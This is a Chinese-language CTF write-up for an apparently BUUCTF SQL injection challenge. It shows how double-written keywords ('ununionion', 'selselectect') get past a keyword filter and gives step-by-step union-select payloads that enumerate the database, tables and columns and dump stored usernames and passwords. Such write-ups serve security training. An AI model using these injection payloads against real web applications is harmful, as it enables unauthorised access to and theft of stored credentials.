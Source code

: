 # 考察知识点：

# 1.sql注入

# 2.双写绕过



# 1.sql过滤判断

根据报错吧信息，判断过滤了select,但是这个过滤可以使用双写绕过

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/A2838492AF974F2BA71A3DEE4D2D4BF9clipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/9D2BBA4BFD8B41D387FE705D8EDA2A41clipboard.png)

or ,and等都显示输入username，可以判断or,and,union等都被过滤，但是使用双写绕过既可绕过过滤



# 2.采用联结注入

order by 确定行数。



# 3.union select联结查询，

```javascript
password=1'ununionion%20selselectect%20null,null,database()--+
```

确定数据库未geek

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/36B6475675F9498A8CC06BDD0FA7459Cclipboard.png)



# 4.爆表

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/747D55C9125B4183B470489AA2F84D83clipboard.png)

确定geek数据库中有两个表，b4bsql,geekuser



# 5.爆字段

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name='geekuser'--+ 
```

确定geekuser表中有username和password字段。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/73AA841372444F9FAE936DFF31B9A8A4clipboard.png)



# 6.获取字段内容

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(username,password)%20frfromom%20b4bsql--+ 
```

在b4bsql的password字段中获取到，flag。

注意：此处的password中的or要双写。



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/038F02B8D15A41CB85D4E995556DC8D4clipboard.png)


